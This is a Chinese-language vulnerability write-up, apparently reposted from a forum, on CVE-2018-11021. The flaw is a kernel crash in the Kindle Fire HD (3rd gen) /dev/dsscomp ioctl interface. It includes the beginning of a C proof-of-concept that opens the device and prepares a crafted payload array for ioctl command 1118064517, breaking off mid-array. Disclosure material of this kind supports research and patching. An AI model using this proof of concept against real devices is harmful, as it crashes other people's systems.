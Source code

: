 # （CVE-2018-11021）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3373](https://www.zhihuifly.com/t/topic/3373)

# （CVE-2018-11021）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

## 一、漏洞简介

Amazon Kindle Fire HD（3rd）Fire OS 4.5.5.3内核组件中的内核模块/omap/drivers/video/omap2/dsscomp/device.c允许攻击者通过设备/ dev上ioctl的参数注入特制参数/ dsscomp与命令**1118064517**并导致内核崩溃。

要探索此漏洞，必须打开设备文件/ dev / dsscomp，并使用命令**1118064517**和精心设计的有效负载作为第三个参数在此设备文件上调用ioctl系统调用。

## 二、漏洞影响

Fire OS 4.5.5.3

## 三、复现过程

### poc

```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
 * Related buggy struct name is dsscomp_setup_dispc_data.
 * This Poc should run with permission to do ioctl on /dev/dsscomp.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = “/dev/dsscomp”;

static command = 1118064517;

int main(int argc, char **argv, char **env) {

unsigned int payload[] = {

0xffffffff,

0x00000003,

0x5d200040,

0x79900008,

0x8f5928bd,

0x78b02422,

0x00000000,

0xffffffff,

```